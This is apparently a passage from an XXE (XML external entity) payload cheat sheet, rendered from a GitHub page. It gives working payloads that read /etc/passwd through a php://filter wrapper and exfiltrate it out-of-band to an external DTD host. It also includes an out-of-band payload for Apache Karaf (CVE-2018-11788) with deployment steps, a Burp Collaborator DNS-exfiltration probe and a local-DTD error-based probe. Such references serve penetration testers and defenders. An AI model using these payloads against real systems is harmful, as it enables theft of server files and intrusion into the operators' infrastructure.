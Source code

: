 ```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)


## XXE with local DTD

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:
```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```
